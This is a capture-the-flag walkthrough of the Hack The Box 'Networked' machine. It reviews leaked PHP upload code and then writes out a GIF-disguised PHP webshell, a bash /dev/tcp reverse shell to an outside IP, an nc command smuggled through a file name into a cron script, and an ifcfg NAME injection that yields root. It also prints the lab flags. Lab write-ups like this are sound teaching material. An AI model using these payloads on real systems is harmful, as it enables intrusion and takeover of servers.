


# Networked 

## Reconnaissance

### nmap 


- nmap result 
    1. port 80 --- Apache/2.4.6
    2. port 22 --- OpenSSH 7.4
    3. port 443 --- closed

### WebSite 


### Gobuster Result 

- backup 
- upload

### Get Backup file 

- In Backup directory
    1. ```index.php```
    2. ```lib.php```
    3. ```photos.php```
    4. ```upload.php```

### Code Review

- Read ```upload.php```

```
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>

```
- Two validation for uploaded file
    1. check_file_type and filesize check

    
    2. Compare file name by offset
    
    
- substr_compare usage 
- Binary safe comparison of 2 strings from an offset, up to length characters.


- According to above code, the upload php file will required lib php.
- so let's check ```lib.php```
```
<?php

function getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}

function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}

function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}

function file_mime_type($file) {
  $regexp = '/^([a-z\-]+\/[a-z0-9\-\.\+]+)(;\s.+)?$/';
  if (function_exists('finfo_file')) {
    $finfo = finfo_open(FILEINFO_MIME);
    if (is_resource($finfo)) // It is possible that a FALSE value is returned, if there is no magic MIME database file found on the system
    {
      $mime = @finfo_file($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = @mime_content_type($file['tmp_name']);
    if (strlen($file_type) > 0) // It's possible that mime_content_type() returns FALSE or an empty string
    {
      return $file_type;
    }
  }
  return $file['type'];
}

function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}

function displayform() {
?>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post" enctype="multipart/form-data">
 <input type="file" name="myFile">
 <br>
<input type="submit" name="submit" value="go!">
</form>
<?php
  exit();
}

?>

```


## Exploitation

- Access upload php page, and upload a file.


- Intercept the upload procedure by Burp Suite
 

- Inject PHP one liner payload and pretend it as GIF by start the magic word (```GIF89a```)
```
GIF89a
<?php system($_GET['cmd']); ?>
```
- And set up the file name like ```test.php.gif```


- Check the photo page, the uploaded file will display in here


- Direct accesss to the uploaded file
```
10.129.228.3/uploads/10_10_17_145.php.gif?cmd=ls ../
```
- The directory list will display.
- So, we know the webshell works now.


- Try to get a permanent reverse shell 
```
bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'
```
- URL encoded the special character
```
bash%20-c%20%27bash%20-u%20%3e%26%20/dev/tcp/10.10.17.145/1336%20/53e%261%27
```


- nc listener get reply, I got the reverse shell
- Try to check user flag in guly directory but failed


- Check the owner for all the file in guly
- Most of them are belong to user guly and group guly 
- So, I think the user of mine doesn't have enough permission.
- Let's try to get guly user.


- Check the special file in here 
    1. check_attack.php 
    2. crontab.guly
- crontab guly
- it will execute teh check_attack php file regularly


- Read ```check_attack.php```
```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg = '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
    $msg='';
if ($value == 'index.html'){
    continue;
}
#echo "------------\n";

#print "check: $value\n";
list($name,$ext) = getnameCheck($value);
$check = check_ip($name, $value);

if(!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);
    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $headers, "-F$value");
}
}
?>
```

- Here is a filter code by regrular expression.
```
preg_grep('/^([^.])/')
```
- It filter the file name start from ```.```


- Second, the interesting point for this code is on 'nohup' command, it wil take user input : ```$path$value``` as prameter.
- so that is the point I can use to escalate the permission.


- Then according to the start of the code snippet, the origin path should be ```/var/www/html/uploads```
- Then create a fake file and named it with some reverse shell command, like ``` ; nc -c bash 10.10.17.145 1336 ```


- ```;``` used to seperate the previous command in source code
- command nc with ```-c ``` to specify the shell command to execute.  


- cat the log to try to trigger the command to execute the payload.


- Check the nc listener


- Get user flag: ```3d2aaa8670ebddc486d511b4aa5adac9```


## Post exploitation

- After getting user flag, the next step is get root permission.
- Using ```sudo -l ``` to check the current user (guly)'s permission and what's the command I can use.


- Check ```changename.sh```

```
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly <<EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
    echo "interface $var:"
    read x
    while [[ ! $x =~ $regexp ]]; do
        echo "wrong input, try again"
        echo "interface $var:"
        read x
    done
    echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```
- In this file, I think it will parse the network related information with for loop, and also will read a user input 'x',  then compare the 'x' with regular expression to filter speical character. then store 'x' value to replace the information in for loop. In the end, it will store the new value into ```ifcfg-guly``` file.


- check the file ```ifcfg-guly```
- Its some NETWORK related setting


- Try to execute, the shell file, it will reply a lot of Permission denied.


### Privilege Escalation

- According to the permission checking at first, I know the user 'guly' can execute this shell file without high permission password.
- so I tried ```sudo /usr/local/sbin/changeme.sh```


- Just input the NAME as ```hello bash```


- Then, I got root permission.
- Get root flag: ```25b1db94fd177aa8a1165463c009b276```


## Reference 


- [(Writeup)HTB: Networked](https://0xdf.gitlab.io/2019/11/16/htb-networked.html)
- [(Writeup)Hack The Box — Networked Writeup w/o Metasploit](https://ranakhalil101.medium.com/hack-the-box-networked-writeup-w-o-metasploit-62daa1146b9b)
- [PHP MIME TYPE](https://cweiske.de/tagebuch/php-mimetype.htm)


- [python: spawn shell](https://www.folkstalk.com/2022/10/python-spawn-shell-with-code-examples.html)
- [Linux nohup command](https://www.runoob.com/linux/linux-comm-nohup.html)
- [(Privilege Escalation)'NetworkManager: Incorrect whitespace filtering on the NAME attribute leading to code execution'](https://bugzilla.redhat.com/show_bug.cgi?id=1697473)
- [Redhat/CentOS root through network-scripts](https://seclists.org/fulldisclosure/2019/Apr/24)



- [List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)


###### tags: `HackTheBox` `Easy` `Code Review` `File Upload` `Network PWNED` `ifcfg file` `Reverse Shell` `linux`